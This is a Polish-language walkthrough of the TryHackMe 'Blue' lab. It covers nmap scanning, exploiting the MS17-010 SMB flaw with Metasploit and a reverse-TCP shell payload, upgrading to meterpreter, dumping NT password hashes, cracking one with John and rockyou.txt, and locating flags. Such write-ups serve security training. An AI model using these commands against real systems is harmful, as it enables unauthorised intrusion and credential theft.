 # **TryHackMe - Blue**

**Autor:** adi7312

**Poziom trudności:** Łatwy

## **Task 1 - Recon**

Dokonujemy skanowania podatnej maszyny, będziemy szukać poniższych informacji:

* Wersja OS
* Wersje usług hosta
* Liczba otwartych portów

```bash
nmap -O -sV -p- 10.10.251.166
```


![](p/1.png)


Możemy więc odpowiedzieć na pierwsze zadane pytanie:


![](p/2.png)


Teraz postaramy się ustalić na co podatna jest nasza maszyna, uruchamiamy polecenie:

    nmap -sV -vv --script vuln 10.10.251.166


![](p/3.png)


Jak możemy zauważyć nasza maszyna ma podatny na atak protokół SMB (nazwa podatności: `ms17-10`). Możemy więc odpowiedzieć na ostatnie pytanie z tego zadania.


![](p/4.png)


## **Task 2 - Gain Access**

W celu zdobycia dostępu do systemu skorzystamy z frameworku *Metasploit*. W msfconsole wpisujemy polecenie: `search CVE-2017-0143` (czyli szukamy podatności o podanym wcześniej przez nmapa identyfikatorze). Skorzystamy z pierwszzego exploita, wpisujemy polecenie `use 0`. 


![](p/5.png)


Możemy zatem odpowiedzieć na pierwsze pytanie zadane w tym zadaniu:


![](p/6.png)


Następnie sprawdzamy jakie parametry trzeba ustawić, robimy to poleceniem `options`, jak widzimy musimy ustawić `RHOSTS` (jest to jednocześnie odpowiedź do następnego pytania). Wpisujemy zatem polecenie `set RHOSTS 10.10.251.166`.


![](p/7.png)


Zanim wpiszemy `exploit` powinniśmy jeszcze zmieć *payload* na poniższy:

    set payload windows/x64/shell/reverse_tcp


Teraz możemy wpisać `exploit`. Otrzymaliśmy shella.


## **Task 3 Escalate**

Chcemy teraz ulepszyć shella do meterpretera, wychodzimy z naszej sesji (CTRL+Z) i szukamy w Metasploicie odpowiedniego modułu który ulepszy nam shella to meterpretera. Po znalezieniu wpisujemy `use 0` i ustawiamy niezbędnę parametry (w tym przypadku SESSION).


![](p/8.png)


Wpisujemy `exploit`, po zakończeniu procesu tworzenia sesji meterpretera, możemy do niego przejść w tym celu wpisujemy `sessions -i 3`. Możemy teraz potwierdzić że jesteśmy *NT AUTHORITY\ SYSTEM* (wchodzimy też w sesję 2, aby to potwierdzić).


![](p/9.png)


W sesji *meterpretea* wpisujemy teraz polecenie `ps` w celu wypisania wszystkich pracujących procesów, twórcy CTF karzą nam zapisać PID procesu który jest używany przez *NT AUTHORITY\ SYSTEM* i znajduje się na samym dole. Jednak twórcy jednocześnie ostrzegają że zmiana procesu jest niestabilna i może nie zadziałać w takim wypadku należy skorzyzstać z innego *PID*, my skorzystamy z `PID: 712`.


![](p/10.png)


## **Task 4 Cracking**

Następnie *dumpujemy* hasła w meterpreterze poleceniem `hashdump`. Możemy odpowiedzieć teraz na pierwsze pytanie:


![](p/11.png)


![](p/12.png)


Naszym zadaniem jest teraz złamanie hasła użytkownika john. Zapisujemy hash hasła johna do pliku `hash.txt`. Następnie korzystamy z polecenie (do łamania hasła skorzystamy z pliku rockyou.txt).

    john --format=nt --wordlist=/root/Desktop/wordlists/rockyou.txt /root/Desktop/hash.txt


![](p/13.png)


Hasło Jon'a to `alqfna22`.


![](p/14.png)


## **Task 5 Find flags!**

W celu znalezienie flag wpisujemy polecenie:

    dir *flag*.* /s

Teraz mamy ładnie wypisane lokalizacje naszych flag, pozostało je jedynie odczytać.


![](p/15.png)


Będziemy teraz wpisywać polecenie:`type <lokalizacja flagi>`.


![](p/16.png)


Możemy teraz uzupełnić odpowiedzi na stronie i zakończyć cały CTF.


![](p/17.png)
